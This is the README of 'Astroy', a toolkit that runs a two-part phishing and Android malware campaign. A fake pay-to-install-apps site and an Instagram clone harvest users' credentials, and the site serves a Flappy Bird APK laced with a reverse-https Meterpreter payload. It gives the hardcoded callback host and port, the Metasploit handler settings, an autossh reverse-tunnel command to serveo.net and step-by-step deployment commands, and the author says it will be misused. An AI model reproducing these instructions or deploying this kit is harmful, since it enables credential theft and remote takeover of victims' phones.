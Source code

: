 # Astroy

[<img src="https://img.shields.io/badge/Python-3.5%20%7C%203.6%20%7C%203.7-red.svg">]()
[<img src="https://img.shields.io/badge/Requirements-Up%20To%20Date-green.svg">]()
[<img src="https://img.shields.io/badge/Apache-v2.4.38-lightgrey.svg">]()
[<img src="https://img.shields.io/badge/PHP-v7.3.2-orange.svg">]()
[<img src="https://img.shields.io/badge/License-MIT-blue.svg">]()
[<img src="https://img.shields.io/badge/OS-Linux-brightgreen.svg">]()
[<img src="https://img.shields.io/badge/OpenSSH-v7.9-red.svg">]()

> Astroy is a collection of templates that have been outsourced from different projects, combined to launch a powerful, attractive and easy to pull off a two-in-one phishing and Android malware distribution campaign.

[![asciicast](https://asciinema.org/a/fz787azSdbP34fi9iE7dpf0hd.svg)](https://asciinema.org/a/fz787azSdbP34fi9iE7dpf0hd)

I made this as a tool for personal use, and did not think I would come to open-source it. As a result, a LOT of assumptions have been made when coding this, and it's gonna take you a bit of tweaking and playing around with if the OS you're running isn't configured in accordance to how the script wants. Shouldn't be too hard, though.

## Why Astroy?

We live in a generation where, although most people would fall for most get-rich-quick scams, the effort required to social engineer them into actually falling for them is tremendous. Astroy sells itself as an ordinary website that pays users to install and use its Android apps, but however gathers user credentials of anyone who signs up to it, and provides a malicious ``APK`` file (a Flappy Bird game laced with a reverse-https payload) to download. If the user installs and runs the malicious game, the attacker will gain a Meterpreter session, effectively pulling off double penetration (no pun intended).

The web templates include a normal sign up page, and an Instagram clone. The reason I did not add more popular templates like Facebook and Google is because their designs weren't as appealing as Instagram's. Special shout out to [thelinuxchoice](https://github.com/thelinuxchoice) for the Instagram phishing template - I modified their version a bit, removed their backend and added mine.

The Flappy Bird game is hardcoded with the LHOST ``serveo.net`` and LPORT ``2345``. On Metasploit, run ``set lhost localhost`` and ``set lport 2345`` to configure the handler. Run ``autossh -tt -M 0 -o 'ServerAliveInterval 30' -o 'ServerAliveCountMax 3' -R 2345:localhost:2345 serveo.net`` to forward TCP connections, and your payload will connect over WAN.

Astroy only serves as a proof of concept to what black hat hackers can achieve if they get creative. I take no responsibility whatsoever for any usage of the tool for any illegal activities by anyone else.

## Assumptions

Because I coded this for personal use, I made this without consideration for other Linux OS'. As such, this tool is made with the assumption that:

1. You're system has Python 3. To set up most of the things that the tool needs, you'll need to run the main python file (``setup.py``) with Python 3. Also, the ``index.php`` files in the directories ``download`` and ``account/instagram`` make calls to Python 3 to run ``retrieve.py`` and ``del.py`` respectively. Depending on how you invoke your Python 3 (for example, I run files like this - ``python3 example.py`` - because my system has two Python versions installed), you might need to alter the default invocation in the ``index.php`` files specified above. Lastly, every Python file in Astroy has a shebang that invokes the Python 3 version installed on my system - this assumes that your Python 3 is located at ``/usr/bin/python3``. Change this line as necessary.

2. Your system has ``Apache2`` and that the default directory for serving web pages is ``/var/www/html``. It also assumes that you have correctly set up ``PHP`` with Apache so that any PHP files are correctly rendered by Apache when its webserver is started. The default Apache webserver listens on port `80`, and this tool abides by that.

3. Your system has ``PHP``. I recommend version ``7``, because I haven't tested this tool with other versions of PHP. 

4. Your system has ``OpenSSH`` and ``AutoSSH``. These are used to establish connections to [Serveo](http://serveo.net), which forwards ports and allows your locally served web pages to be available to the public.

5. You will clone all the main files to ``/var/www/html``, or copy them to that directory. This means that the directories ``account``, ``download``, ``img`` and ``verify``, plus the files ``index.php``, ``requirements.txt`` and ``setup.py`` will all be inside the directory ``/var/www/html``. This is the base directory, where Apache will serve ``index.php`` as the landing page, under the default url ``https://astroy.serveo.net``. The directories ``account``, ``account/instagram``, ``verify`` and ``download`` will all serve their files through PHP servers (either on custom ports or the default ones if none are provided as arguments), and will have the urls ``https://account.serveo.net``, ``https://app.serveo.net``, ``https://verify.serveo.net`` and ``https://download.serveo.net`` respectively. For the sake of avoiding conflict, be sure there are no existing files in ``/var/www/html`` before you copy or download Astroy's files to this directory.

6. It will be totally misused. With the rise of noob hackers and experienced black hats looking for easy scripts for use in their  nefarious activities, this tool is bound to act as an asset for breaking the law. Since [Serveo](http://serveo.net) blocks phishing subdomains as soon as the subdomain is reported, the urls mentioned in ``Assumption 5`` will most likely be blocked after a while - yet they are hardcoded in the PHP files, without any provided means to change them via the command line. The assumption this tool makes is that you'll have to edit each PHP file individually, find any anchor links pointing to the default subdomains and manually change them to the desired subdomains.

7. You are running Linux, as root. I coded this for Kali, but with the right tweaking, it will run on any Linux OS smoothly.

## Pre-requisites

You basically need [``Apache2``](https://www.google.com/amp/s/likegeeks.com/linux-web-server/amp/), [``OpenSSH``](https://www.google.com/amp/s/www.tecmint.com/install-openssh-server-in-linux/amp/), [``PHP``](https://www.tutorialspoint.com/php/php_installation_linux.htm) and [``AutoSSH``](https://www.everythingcli.org/ssh-tunnelling-for-fun-and-profit-autossh/).

Tap each package to get an idea on how the installation and configuration procedures are like (I couldn't possibly write the entire guide), and it will get you up and running in no time.

Only after you are sure you've got things set up and working correctly should you proceed with the next step.

## Installation

Clone the repository:

```sh
git clone https://github.com/briancanspit/astroy.git
```

Get into the cloned directory:

```sh
cd astroy
```

Copy all the files in the directory to Apache's base directory:

```sh
cp -r * /var/www/html
```

## Setting Things Up

Get into the base directory the script relies on:

```sh
cd /var/www/html
```

You need to change ownership of the files recursively, to give Apache ownership. Run:

```sh
chown -R www-data *
```

Depending on how you invoke Python 3 on your system, run this command to install the requirements needed by Python:

```sh
python3 -m pip install -r requirements.txt
```

Finally, run the setup script. This simply checks whether you have internet, whether the packages it needs are installed, whether you provided any ports as arguments and finally creates an ``astroy`` file at ``/usr/bin/`` which can be run globally from any directory. This setup script can be run without arguments like this:

```sh
python3 setup.py
```

Running it without any arguments makes the script default to using the default ports, which are ``80``, ``3239``, ``8492`` and ``12345``. To provide your own arguments, run the script like this (assume you want the ports to be ``80``, ``444``, ``888`` and ``999``:

```sh
python3 setup.py 80 444 888 999
```

This tool assumes the first command line argument will always be ``80``. 

